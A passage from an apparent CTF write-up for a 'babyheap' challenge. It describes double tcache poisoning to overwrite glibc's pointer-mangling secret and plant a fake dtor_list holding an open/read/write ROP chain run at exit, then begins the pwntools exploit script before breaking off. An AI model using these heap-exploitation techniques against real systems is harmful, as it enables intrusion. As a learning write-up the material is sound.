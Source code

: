 instead of calling system like in ezvm challenge , we will setup rdx to point to our rop,

and will call the `mov rsp,rdx` gadget with out fake `dtor_list` table

our ROP is a classic open / read / write rop

that will dump the flag.

For using this method ,we need two writes:

- one to erase the random value that is used for calculating mangled value as `fs:0x30`
- another to write our fake `dtor_list` table and our rop

so we will do tcache poisonning attack two times…

then we exit the program, that will execute our rop at exit time…
 and dump the flag.

![gotflag](./pics/gotflag.png)

here is the exploit code commented(more or less):

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.arch = 'amd64'
context.log_level = 'error'

TARGET = './babyheap'
HOST = '47.100.33.132'
PORT = 2204

elf = ELF(TARGET)
libc = ELF('./libc.so.6')

if not args.REMOTE:
  r = process(TARGET)
else:
  r = remote(HOST, PORT)


def a(size, data):
	r.sendlineafter(b'mand: ', b'1')
	r.sendlineafter(b'Size: ', str(size).encode())
	r.sendlineafter(b'tent: ', data)

def e(idx, data, size=-1):
	r.sendlineafter(b'mand: ', b'2')
	r.sendlineafter(b'ndex: ', str(idx).encode())
	r.sendlineafter(b'Size: ', str(size).encode())
	r.sendlineafter(b'tent: ', data)

def d(idx):
	r.sendlineafter(b'mand: ', b'3')
	r.sendlineafter(b'ndex: ', str(idx).encode())

def v(idx):
	r.sendlineafter(b'mand: ', b'4')
	r.sendlineafter(b'ndex: ', str(idx).encode())

# function to rotate left
rol = lambda val, r_bits, max_bits: \
```